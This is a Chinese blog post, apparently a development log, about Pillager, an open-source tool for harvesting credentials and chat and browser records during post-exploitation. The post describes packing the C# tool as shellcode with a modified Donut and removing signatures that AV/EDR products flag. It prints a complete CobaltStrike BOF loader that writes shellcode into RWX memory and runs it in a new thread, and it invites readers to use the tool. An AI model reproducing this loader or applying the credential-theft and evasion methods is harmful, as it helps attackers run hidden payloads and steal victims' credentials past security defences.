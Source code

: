 ```yaml
---
title: Pillager开发记录-1
date: 2023-11-10 03:22:25
categories: 
- Forensics
tags:
- Forensics
---
```

今年上半年，在开发 CobaltStrike 插件期间，没用遇到合适且长期更新的信息收集工具，便决定自己制作一款，也就有了[Pillager](https://github.com/qwqdanchun/Pillager)项目。

这款工具旨在收集机器上浏览器，聊天软件，已经其他常用工具的凭证、记录等敏感信息，从而进行进一步的后渗透工作。

# 思路的确定

最初的想法只是为了制作一个小巧简介的 BOF ，但是后期研究发现使用 BOF 开发并不合适，综合考虑下选择了使用C#开发。进而就要考虑内存执行 C# 的问题，以及 C# 不可避免的 CLR 环境兼容问题。这时我就想到了 [Donut](https://github.com/TheWover/donut) 工具，使用其打包 shellcode 可以制作一个很简单的 BOF 去加载 shellcode 。

# CLR环境兼容问题

这里其实解决起来很简单，用到了之前写 C# 马时就曾经使用过的一个小技巧，也就是 .Net Framework v3.5 生成的文件，修改其 MetaData Header 中的 VersionString 为 `v4.0.30319`即可在 v4.x 的环境下正常使用。

经过测试，系统会根据这个字符串指定 CLR 版本，在手动加载 CLR 环境并加载 Assembly 时，只要自己指定正确版本即可，无需修改字符串。

当然，这样做对开发时使用的库有一定的要求，需要尽量避免使用第三方库，但是这种问题就很好解决了。

# Donut相关

Donut 本身就是一个很完善的项目，但是对于此处使用，仍然有一些可以改进的地方，首先是在 Donut 内完成了上文的 CLR 兼容，其次是删除了与 .Net 加载无关的代码，并处理了两处 Donut 被 AV/EDR 标记的静态特征，最大程度的保证了可用性和体积的最小化

# BOF加载器

为了方便 CobaltStrike 使用，我制作了一个非常简单的 BOF 去加载生成的 shellcode ，后期有需要，也可以对此进行更改以避免分配 RWX 内存的行为

```c
#include <windows.h>
#include "beacon.h"

DECLSPEC_IMPORT LPVOID   WINAPI   KERNEL32$VirtualAlloc(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
DECLSPEC_IMPORT BOOL     WINAPI   KERNEL32$WriteProcessMemory(HANDLE hProcess, LPVOID lpBaseAddress, LPCVOID lpBuffer, SIZE_T nSize, SIZE_T * lpNumberOfBytesWritten);
DECLSPEC_IMPORT HANDLE WINAPI KERNEL32$CreateThread(LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
DECLSPEC_IMPORT HANDLE  WINAPI KERNEL32$GetCurrentProcess (VOID);

VOID go( 
	IN PCHAR Buffer, 
	IN ULONG Length 
) 
{
    datap   parser;
    LPBYTE  lpShellcodeBuffer = NULL;
    DWORD   dwShellcodeBufferSize = 0;
    LPVOID pMem;
    SIZE_T bytesWritten = 0;
    DWORD dwThreadId = 0;

    BeaconDataParse(&parser, Buffer, Length);
    lpShellcodeBuffer = (LPBYTE) BeaconDataExtract(&parser, (int*)(&dwShellcodeBufferSize));
    pMem = KERNEL32$VirtualAlloc(0, dwShellcodeBufferSize,MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    KERNEL32$WriteProcessMemory(KERNEL32$GetCurrentProcess(), pMem, lpShellcodeBuffer, dwShellcodeBufferSize, &bytesWritten);
    KERNEL32$CreateThread(0, 0, pMem, 0, 0, &dwThreadId);
}
```

# 结论

至此，基本的准备工作已经就绪，后续我会陆续的更新文章，介绍各个收集目标的具体原理及使用方法

此工具开源于 [https://github.com/qwqdanchun/Pillager](https://github.com/qwqdanchun/Pillager) ，欢迎大家关注和使用

